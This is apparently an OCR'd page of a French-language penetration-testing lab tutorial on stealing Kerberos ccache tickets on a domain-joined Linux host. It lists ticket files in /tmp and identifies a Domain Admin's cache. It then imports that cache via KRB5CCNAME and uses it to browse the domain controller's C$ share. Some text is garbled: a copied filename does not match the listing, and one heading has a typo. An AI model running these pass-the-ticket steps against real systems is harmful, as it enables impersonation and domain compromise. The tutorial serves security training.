 En tant que root, nous devons identifier quels tickets sont présents sur la machine, à qui ils appartiennent et leur date d'expiration.

### Looking for ccache Files
```
root@linux01:~# ls -la /tmp

total 76
drwxrwxrwt 13 root                               root                           4096 Oct  7 11:35 .
drwxr-xr-x 20 root                               root                           4096 Oct  6  2021 ..
-rw-------  1 julio@inlanefreight.htb            domain users@inlanefreight.htb 1406 Oct  7 11:35 krb5cc_647401106_HRJDux
-rw-------  1 julio@inlanefreight.htb            domain users@inlanefreight.htb 1406 Oct  7 11:35 krb5cc_647401106_qMKxc6
-rw-------  1 david@inlanefreight.htb            domain users@inlanefreight.htb 1406 Oct  7 10:43 krb5cc_647401107_O0oUWh
-rw-------  1 svc_workstations@inlanefreight.htb domain users@inlanefreight.htb 1535 Oct  7 11:21 krb5cc_647401109_D7gVZF
-rw-------  1 carlos@inlanefreight.htb           domain users@inlanefreight.htb 3175 Oct  7 11:35 krb5cc_647402606
-rw-------  1 carlos@inlanefreight.htb           domain users@inlanefreight.htb 1433 Oct  7 11:01 krb5cc_647402606_ZX6KFA
```

Il y a un utilisateur (julio@inlanefreight.htb) auquel nous n'avons pas encore accès. Nous pouvons confirmer les groupes auxquels il appartient en utilisant id.

## Identifying Group ZMembership with the id Command
```
root@linux01:~# id julio@inlanefreight.htb

uid=647401106(julio@inlanefreight.htb) gid=647400513(domain users@inlanefreight.htb) groups=647400513(domain users@inlanefreight.htb),647400512(domain admins@inlanefreight.htb),647400572(denied rodc password replication group@inlanefreight.htb)
```

Julio est membre du groupe Admins du domaine. Nous pouvons tenter d'usurper l'identité de l'utilisateur et accéder à l'hôte du contrôleur de domaine DC01.

Pour utiliser un fichier ccache, nous pouvons copier le fichier ccache et attribuer le chemin du fichier à la variable KRB5CCNAME.

### Importation du fichier ccache dans notre session en cours
```
root@linux01:~# klist

klist: No credentials cache found (filename: /tmp/krb5cc_0)
root@linux01:~# cp /tmp/krb5cc_647401106_I8I133 .
root@linux01:~# export KRB5CCNAME=/root/krb5cc_647401106_I8I133
root@linux01:~# klist
Ticket cache: FILE:/root/krb5cc_647401106_I8I133
Default principal: julio@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
10/07/2022 13:25:01  10/07/2022 23:25:01  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/08/2022 13:25:01
root@linux01:~# smbclient //dc01/C$ -k -c ls -no-pass
  $Recycle.Bin                      DHS        0  Wed Oct  6 17:31:14 2021
  Config.Msi                        DHS        0  Wed Oct  6 14:26:27 2021
  Documents and Settings          DHSrn        0  Wed Oct  6 20:38:04 2021
  john                                D        0  Mon Jul 18 13:19:50 2022
  julio                               D        0  Mon Jul 18 13:54:02 2022
  pagefile.sys                      AHS 738197504  Thu Oct  6 21:32:44 2022
```